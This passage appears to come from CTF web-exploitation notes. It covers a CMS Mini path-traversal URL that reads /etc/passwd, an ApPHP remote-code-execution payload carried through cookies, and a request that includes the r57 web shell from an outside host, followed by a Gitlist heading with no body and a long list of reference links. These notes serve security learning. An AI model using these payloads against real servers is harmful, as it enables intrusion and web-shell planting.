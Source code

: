 
[CMS Mini] is a file system to build simple websites. It has [several vulnerabilities] such as [CSRF], RFI, and [XSS].

[CSRF]: https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)
[XSS]: https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)


An example of RFI vulnerability in CMS Mini is explored using curl:

```http
http://
[target/IP]/cmsmini/admin/edit.php?path=&name=../../../../../etc/passwd
```

For more examples of exploits, check [1337day] and [this exploit-db].

[1337day]: http://1337day.com/exploit/3256
[several vulnerabilities]: http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2008-2961

[this exploit-db]: http://www.exploit-db.com/exploits/28128/
[CMS Mini]: http://www.mini-print.com/
















### ApPHP and Remote Code Execution

[ApPHP](http://www.apphp.com/) is a blog script. It is known for having  [several vulnerabilities], including [remote code execution] (RCE). An example of RCE exploit for ApPHP [can be seen here]. A good start is to check the PHP's [disable_function](http://php.net/manual/en/ini.core.php#ini.disable-functions) list for stuff to hacker the server.

[several vulnerabilities]: http://www.exploit-db.com/exploits/33030/
[remote code execution]: https://www.owasp.org/index.php/PHP_Top_5#P1:_Remote_Code_Execution

[can be seen here]: http://www.exploit-db.com/exploits/33070/



In this CTF, the challenge was to find what was not in that list. For instance, it was possible to use [$_POST](http://php.net/manual/en/reserved.variables.post.php) and [$_COOKIE](http://php.net/manual/en/reserved.variables.cookies.php) to send strings to functions such as [scandir()](http://php.net/manual/en/function.scandir.php) and [get_file_contents()](http://php.net/manual/en/function.file-get-contents.php):

```http
GET Request: ?asdf);print_r(scandir(implode($_COOKIE))=/
Cookie: 0=include
```

In addition, with a writable directory we can drop a shell in the server (you can use script-kiddies scripts like [r57 shell.net](http://www.r57shell.net/), but in real life, keep in mind that they are super uber [backdoored](http://thehackerblog.com/hacking-script-kiddies-r57-gen-tr-shells-are-backdoored-in-a-way-you-probably-wouldnt-guess/#more-447)).

```http
Post Request: 0=include/myfile.php
Cookie: 0=http://www.r57shell.net/shell/r57.txt
```


### Gitlist and Remote Command Execution


[CTF write-ups git repo]: https://github.com/ctfs/write-ups/tree/master/d-ctf-2014/
[DEFCAMP CTF Quals]: http://dctf.defcamp.ro/challs
[Remote File Inclusion]: http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion
[TimThumb]: https://code.google.com/p/timthumb/
[exploit-db]: http://www.exploit-db.com/exploits/33990/
[1337day]: http://en.1337day.com/exploit/22391
[packet storm]: http://packetstormsecurity.com/files/127364/Gitlist-Unauthenticated-Remote-Command-Execution.html
[hatriot]: http://hatriot.github.io/blog/2014/06/29/gitlist-rce/
[command injection]: http://cwe.mitre.org/data/definitions/77.html
[allowing remote attackers to execute arbitrary commands via shell]: http://www.websecuritywatch.com/arbitrary-command-execution-in-gitlist/
[Gitlist]: http://gitlist.org/
[here]: https://github.com/ctfs/write-ups/tree/master/d-ctf-2014/web-400
[unoconv]: http://linux.die.net/man/1/unoconv
[LibreOffice]: http://www.libreoffice.org/
[soffice.bin]: http://www.processlibrary.com/en/directory/files/soffice/66728/
[Railio 4.2]: http://www.getrailo.org/
[ColdFusion]: http://en.wikipedia.org/wiki/Adobe_ColdFusion
[Adobe ColdFusion 11]: http://www.adobe.com/products/coldfusion-family.html
[this]: https://github.com/ctfs/write-ups/tree/master/d-ctf-2014/web-400
[HTML URL Encoding]: http://www.w3schools.com/tags/ref_urlencode.asp
[jumpespjump]: http://jumpespjump.blogspot.com/2014/03/attacking-adobe-coldfusion.html
[kaoticcreations]: http://kaoticcreations.blogspot.com/2012/11/hacking-cold-fusion-servers-part-i.html
[cyberguerilla]: https://www.cyberguerrilla.org/blog/?p=18275
[vulnerable to a variety of attacks]: http://www.intelligentexploit.com/view-details.html?id=12750
[gnucitizen]: http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/
[hexale]: http://hexale.blogspot.com/2008/07/how-to-decrypt-coldfusion-datasource.html
[infointox]: http://www.infointox.net/?p=59
[directory traversal]: https://www.owasp.org/index.php/Path_Traversal
[500]: http://en.wikipedia.org/wiki/List_of_HTTP_status_codes
[blackhatlib]: http://www.blackhatlibrary.net/Coldfusion_hacking
[paranoia.jar]: https://ccrma.stanford.edu/~eberdahl/Projects/Paranoia/
[Burp]: http://portswigger.net/burp/
[Tamper Data]: https://addons.mozilla.org/en-US/firefox/addon/tamper-data/
[hash-killer]: http://hash-killer.com/
[md5this]: http://www.md5this.com/
[tcpdump]: http://linux.die.net/man/8/tcpdump
[ExifTool]: http://www.sno.phy.queensu.ca/~phil/exiftool/index.html
[Exif]: http://en.wikipedia.org/wiki/Exchangeable_image_file_format
[writeups]: https://github.com/ctfs/write-ups/tree/master/d-ctf-2014/misc-100
[xxd]: http://linuxcommand.org/man_pages/xxd1.html
[Natas post]: http://singularity.miavonsteinkirch.com/exploiting-the-web-in-20-lessons-natas.html